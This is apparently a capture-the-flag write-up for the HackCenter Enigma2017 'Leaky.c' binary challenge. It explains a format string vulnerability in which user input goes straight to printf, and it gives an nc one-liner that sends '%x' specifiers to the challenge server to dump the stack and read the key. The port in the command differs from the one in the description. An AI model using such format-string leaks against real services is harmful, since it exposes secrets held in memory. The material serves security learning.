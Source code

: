 # HackCenter Engima2017 Leaky.c

**Category:** Binary **Points:** 60 

**Description:**

> Leak the key from memory. Source is available at leaky.c, and the binary's running on enigma2017.hackcenter.com:49769.

## Write-Up

The provided code shows us the following:

```
  unsigned int key = ???;
  unsigned int filler4 = 0x70571007;
  unsigned int filler5 = 0x51107055;
  unsigned int filler6 = 0x50755011;

  unsigned int red = read(STDIN_FILENO,buf,80);
  buf[red] = '\x00';
  printf(buf);
  
```

Okay so we can see the flag (key) is loaded directly into a variable within main, meaning 
that it will be on our stack frame. An argument is read from the user with `STDIN_FILENO`
and stored in the buffer 'buf.' The buffer is then used without formatting within printf.

This is a format string vulnerability. Let's print some format strings into the program.

`$ perl -e 'print "%x "x11;' | nc enigma2017.hackcenter.com 5175`

Within the output, we'll get a series of hex values on the stack. The last one is our
flag! (I figured out where it was in the stack by using more format strings until the
variables started showing up, since the stack is FILO, the key will be located after
filler 4.








